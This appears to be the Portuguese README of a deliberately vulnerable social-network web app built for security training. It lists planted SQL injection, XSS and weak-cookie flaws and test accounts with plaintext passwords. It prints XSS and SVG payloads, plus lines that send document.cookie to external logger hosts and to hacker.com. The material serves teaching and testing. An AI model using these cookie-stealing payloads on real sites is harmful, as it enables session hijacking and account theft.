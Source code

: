# Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Entrar na pasta do front (dvsn/front) e dar build no projeto, para que os arquivos sejam colocados na pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 2. Subir as aplicações utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```
Obs.: Caso queira subir apenas o banco de dados, é necessário comentar as demais aplicações no docker-compose.yml.

### 3. Criação do banco de dados.

- Entrar na pasta **dvsn** e executar o script:
```bash
$ ./create-database.sh
```

### 4. Abrir o VS Code ou IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|

## Hints:
- [Certificados](./docs/hints/certificates.md)

## Assuntos abordados:

- OWASP TOP 10
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Software Composition Analysis (SCA)
- NodeJS/JavaScript: <a href="https://www.npmjs.com/package/yarn-audit-html">yarn audit html report</a>

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts    
- Cookie
    - É apenas um base64 e a aplicação confia no que o cliente envia.

fetch('https://servidor-de-log.free.beeceptor.com/todos?cookie=' +  document.cookie)
fetch('http://logger.crescer.lab/?cookie=' +  document.cookie)

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
- SVG
```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```

- CSS Injection
/hello?nome=Teste#red;margin-left:50px;background-image:url('http://localhost:8080/favicon.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>

## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval
https://github.com/payloadbox/xss-payload-list
